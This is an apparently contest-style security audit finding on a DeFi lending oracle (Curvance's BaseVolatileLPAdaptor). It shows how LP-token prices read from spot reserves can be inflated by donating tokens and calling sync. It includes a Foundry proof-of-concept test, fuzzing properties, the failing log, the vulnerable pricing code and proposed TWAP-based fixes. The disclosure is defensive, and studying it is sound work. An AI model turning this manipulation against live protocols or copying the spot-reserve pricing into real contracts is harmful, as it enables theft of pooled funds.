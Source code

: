 # BaseVolatileLPAdaptor uses Spot Reserves, and is vulnerable to Manipulation

## Executive Summary

Because the `BaseVolatileLPAdaptor` uses `getReserves`, which is subject to manipulation

Oracle prices can be manipulated at no cost by an attacker

## Impact

The pricing formula of k*y=k will hold >AFTER< arbitrage

However, the Curvance Oracle uses Spot Reserves

Due to this, Swaps done via the Router will make the formula hold

But swaps that cause a loss to the swapper, done directly via `Pool.swap` will manipulate the price

## POC

To demonstrate the vulnerabily, I've used Medusa via the Recon Boilerplate

I setup the Fuzzer to have an initial price
And wrote the following properties:

```solidity
// SPDX-License-Identifier: GPL-2.0
pragma solidity ^0.8.0;

import {Asserts} from "@chimera/Asserts.sol";
import {Setup} from "./Setup.sol";

abstract contract Properties is Setup, Asserts {
    uint256 RECON_THRESHOLD = 25;

    function crytic_price_cannot_change_byThresholdUp() public view returns (bool) {
        return initialPrice * RECON_THRESHOLD >= getCurrentPrice();
    }

    function crytic_price_cannot_change_byThresholdDown() public view returns (bool) {
        return initialPrice <= getCurrentPrice() * RECON_THRESHOLD;
    }
}

```

`crytic_price_cannot_change_byThresholdUp` is broken when the price of the LP tokens goes above 25 times

The threshold can be customized at will


## Attack POC

```solidity
    /// @dev Shows that price can be inflated via donation
    function test_crytic_price_cannot_change_byThresholdUp_25x2() public {
        console2.log("initialPrice", initialPrice);
        console2.log("getCurrentPrice()", getCurrentPrice());
        donateBoth(120209876281281145568259943);
        console2.log("getCurrentPrice()", getCurrentPrice());
        sync();
        console2.log("getCurrentPrice()", getCurrentPrice());
        assertTrue(crytic_price_cannot_change_byThresholdUp(), "Price is manipulatable"); // Fails
    }
```


Run via:
```forge test --match-test test_crytic_price_cannot_change_byThresholdUp_25x2 -vv```

And we see that the price did indeed skyrocket
```solidity
[FAIL. Reason: Price is manipulatable] test_crytic_price_cannot_change_byThresholdUp_25x2() (gas: 96240)
Logs:
  theData.length 11636
  initialPrice 2000000000000000000
  getCurrentPrice() 2000000000000000000
  getCurrentPrice() 2000000000000000000
  getCurrentPrice() 242419752562562291136
```

## Additional notes

The full POC is available here:
TODO

The Oracle code was simplified to this:

```solidity
function getPrice(address asset) public view returns (uint256 finalPrice) {
        // Cache AdaptorData and grab pool tokens.
        // AdaptorData memory data = adaptorData[asset]; // NOTE: Replace by token0 and token1
        IUniV2Pool pool = IUniV2Pool(asset);

        // Query LP total supply.
        uint256 totalSupply = pool.totalSupply();
        if (totalSupply == 0) {
            return 0;
        }
        // Query LP reserves.
        (uint256 reserve0, uint256 reserve1,) = pool.getReserves();
        // convert to 18 decimals.
        reserve0 = (reserve0 * 1e18) / (10 ** 18);
        reserve1 = (reserve1 * 1e18) / (10 ** 18);

        // sqrt(reserve0 * reserve1).
        uint256 sqrtReserve = FixedPointMathLib.sqrt(reserve0 * reserve1);

        uint256 price0 = 1e18;
        uint256 price1 = 1e18;

        // price = 2 * sqrt(reserve0 * reserve1) * sqrt(price0 * price1) / totalSupply.
        uint256 finalPrice = (2 * sqrtReserve * FixedPointMathLib.sqrt(price0 * price1)) / totalSupply;

        return finalPrice;
    }
```

## Mitigation

From researching other potential at risk protocols I've found this article:
https://tarotfinance.medium.com/tarot-price-oracle-on-chain-manipulation-resistant-deb681c885a4

Tarot uses a 1200 seconds (20 minutes) TWAP that reads the Pair Cumulative to ensure that reserves are post arbitrage

It's worth noting that the TWAP is attackable, however the cost of attacking Tarot is effectively the cost of bringing the price up by 1200 times for at least one block (2 seconds on FTM)

There also seem to be a pricing formula written by the Uniswap team 4 years ago which is safer than the current implementation, although Oracle Drift (imprecision of oracle updates) is not taken into account

The formula is available here:
https://github.com/Uniswap/v2-periphery/blob/0335e8f7e1bd1e8d8329fd300aea2ef2f36dd19f/contracts/libraries/UniswapV2LiquidityMathLibrary.sol#L42

TODO: I'm investigating the security of other methods and currently don't seem convinced that there's a fair way to price LP tokens that is not risk prone